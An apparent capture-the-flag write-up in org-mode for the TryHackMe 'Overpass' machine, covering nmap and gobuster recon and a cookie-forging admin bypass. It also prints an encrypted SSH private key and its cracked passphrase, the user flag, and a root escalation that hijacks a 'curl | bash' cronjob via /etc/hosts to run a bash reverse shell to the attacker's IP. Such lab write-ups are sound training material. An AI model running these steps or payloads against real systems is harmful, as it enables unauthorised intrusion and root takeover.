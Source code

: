 #+TITLE: overpass

* nmap
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ cat nmap/scan.nmap
# Nmap 7.91 scan initiated Thu Nov 19 21:21:25 2020 as: nmap -sC -sV -oA nmap/scan 10.10.162.41
Nmap scan report for 10.10.162.41
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 19 21:21:50 2020 -- 1 IP address (1 host up) scanned in 25.32 seconds

#+end_src

* gobuster
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ gobuster dir -u 10.10.162.41 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.162.41
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/19 21:31:30 Starting gobuster
===============================================================
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
Progress: 815 / 87665 (0.93%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/19 21:31:40 Finished
===============================================================

#+end_src

* http://10.10.162.41/
[[file:./images/screenshot-14.png]]

* http://10.10.162.41/admin
[[file:./images/screenshot-17.png]]

- the /admin panel ends up being vulnerable.

[[file:./images/screenshot-22.png]]

  if the server responds with “Incorrect credentials” don’t allow that person to get access to the administrator’s panel but if the server doesn’t responds with “Incorrect credentials” give that particular person a session token and give him access to the administrative panel.

- we end up creating our own cookie
  #+begin_src javascript

document.cookie="SessionToken=letmeinnnnnnnnnnnnnnnn"

  #+end_src

[[file:./images/screenshot-20.png]]

- and were in
  - usernames
    : James

* rsa
 -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----

* john
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ john james.key --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (/home/kali/Desktop/haxxx/ctf/thm/overpass/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2020-11-20 12:49) 0.4201g/s 6025Kp/s 6025Kc/s 6025KC/sa6_123..*7¡Vamos!
Session completed

#+end_src
- private key
  : james13

* ssh
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ sudo ssh -i id_rsa james@10.10.198.77
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 20 17:52:21 UTC 2020

  System load:  0.24               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.198.77
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}

#+end_src

* cronjobs
- we end up finding a cronjob running as root
[[file:./images/screenshot-23.png]]

* exploit
- we also find out that we have write access to /etc/hosts
  - so we can spoof the cronjob
    : curl overpass.thm/downloads/src/buildscript.sh | bash

    - we edit /etc/hosts
      and replace the original ip with our own

- now we set up a server in our machine running the same path as the cronjob so we dont get a 404 when the cronjob runs.
  - www/downloads/src/buildscript.sh
    : bash -i >& /dev/tcp/10.6.27.168/1337 0>&1
- with the reverse shell in place, all we have to do now is listen in our local machine and wait for the cronjob to execute and it will connect back to our machine and give us a reverse shell as root.

* listening
#+begin_src bash

┌──(kali㉿kali)-[~/…/overpass/www/downloads/src]
└─$ sudo nc -lvnp 1337
[sudo] password for kali:
listening on [any] 1337 ...
connect to [10.6.27.168] from (UNKNOWN) [10.10.198.77] 58690
bash: cannot set terminal process group (2516): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~#

#+end_src
